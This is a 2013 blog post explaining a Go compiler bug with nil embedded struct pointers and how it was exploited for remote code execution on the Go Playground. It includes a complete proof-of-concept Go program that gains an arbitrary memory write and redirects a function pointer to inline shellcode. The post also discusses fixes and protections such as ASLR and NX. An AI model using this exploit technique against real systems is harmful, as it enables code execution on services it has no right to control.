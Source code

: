 Title: Exploiting a Go Binary
Date: 2013-04-23
Tags: golang, exploitation
Summary: Earlier this year, tylerni7 showed us a proof of concept for a 32 bit Go exploit using <a href="https://code.google.com/p/go/issues/detail?id=464">this issue</a>. geohot and I had a wager over who could get the first remote code execution on <a href="http://play.golang.org">play.golang.org</a>: he won, but just barely ;-). Here is a summary of how we did it.

<h3>Introduction</h3>
Earlier this year, tylerni7 showed us a proof of concept for a 32 bit Go exploit using <a href="https://code.google.com/p/go/issues/detail?id=464">this issue</a>. geohot and I had a wager over who could get the first remote code execution on <a href="http://play.golang.org">play.golang.org</a>: he won, but just barely ;-). Props also to ricky for help finding the underlying cause and updating the exploit for Go 1.03. Here is a summary of how we did it.

This post is cross posted on the [PPP blog](http://ppp.cylab.cmu.edu/wordpress/?p=1087).

<h3>The Bug</h3>
<p>Go has support for embedded structs. You can define an embedded struct as follows:</p>
~~~
:::go
type Embedded struct {
   foo int
}

type Struct struct {
   Embedded
   bar int
}

var instance Struct
~~~
<p>
It is valid to do both <tt>instance.bar</tt> and <tt>instance.foo</tt>.</p>

<p>The problem comes when you try something slightly trickier:</p>
~~~
:::go
type Embedded struct {
   foo int
}

type Struct struct {
   *Embedded
   bar int
}

var instance Struct
~~~
<p>
When you access <tt>instance.foo</tt> (a member of an uninitialized struct), it incorrectly offsets from 0 rather than from the base of an <tt>Embedded</tt> struct. Normally, when dereferencing a pointer inside a struct, the go compiler
emits guard code which will cause a segfault if the pointer is nil.
However, this code is not emitted when the pointer is the first element
of the struct, since it's assumed that this will cause a segfault
whenever it is used anyway.  This assumption is not always valid, as the
pointer can be to a large struct such that the offsets of members of the large
struct are valid addresses.
</p>

<h3>The Vulnerability</h3>
<p>We define an enormous struct and use it to offset memory:</p>
~~~
:::go
type Embedded struct {
   offset [0x400100]byte
   address uint32
}

type Struct struct {
   *Embedded
   bar int
}
var instance Struct
~~~
<p>
Now we can do <tt>instance.address = 0xdeadbeef</tt> and we have written to <tt>0x400100</tt>! This is the arbitrary write primitive we need.</p>

<h3>The Exploit</h3>
<p>Once you have an arbitrary write in go, it is <em>really easy</em> to get arbitrary code execution. We put a function pointer in our data segment (we wanted to put it in the heap, but that didn't work on 64bit Go - apparently the size of a struct is limited to 32 bits. Luckily, the data segment is in the lower 32 bits) and change it to point to our shell code using the arbitrary write. Since Go has <em>no randomization</em> at all, this is as simple as running the program twice. Full exploit below:</p>
~~~
:::go
package main

import "fmt"

// Address to write, computed from a previous run.
const addr_to_overwrite = 0x50e2f0
// &shellcode, computed from a previous run.
const val_to_overwrite uint64 = 0xc200035160

type Embedded struct {
   offset [addr_to_overwrite]byte
   payload uint64
}

type Nested struct {
  // This magic is necessary is because there is an explict null check if
  // if the offset is greater than 0x1000.
  Embedded
}

type Struct struct {
 // The issue is that a reference to the embeded struct pointer here
 // will be offset from null (rather than the true base of the struct).
 // We thus just make sizeof(the embedded struct) large enough to point
 // to the address we want to overwrite.
 //
 // See https://code.google.com/p/go/issues/detail?id=464
 *Nested
}

var unused = func () {}

func main() {
 s := &Struct{}
 shellcode := "\x90\x90\x90\x90\x90\x90\x90\xeb\xfe"

 fmt.Println("You should overwrite this: ", &unused)
 fmt.Println("With this: ", &shellcode)

 fmt.Println("***********************************************");
 fmt.Println("Overwriting ", &s.payload, " with ", val_to_overwrite)

 *(&s.payload) = val_to_overwrite;
 
 unused();
}
~~~

<h3>What Now?</h3>
Well, clearly the [issue](https://code.google.com/p/go/issues/detail?id=464) should be fixed (it was closed 3 years ago as "working as intended"). I also think it is important for Go to add the protections that come now standard with C binaries (ASLR, NX) - I posted [an article](|filename|/security/securing_and_exploiting_go_binaries.md) earlier about security in Go where I strongly advocated those protections. Luckily, Go 1.1. will be adding some of these protections: specificially, the above exploit will not work because <a href="https://groups.google.com/forum/?fromgroups=#!topic/golang-nuts/o2Q5oc36Qt0">Go 1.1  uses a non-executable heap and stack</a> (the vulnerability still works to give an arbitrary write, but more care is necessary to complete the exploit). The development and release versions (as of time of this writing) are still vulnerable, but good job Go!
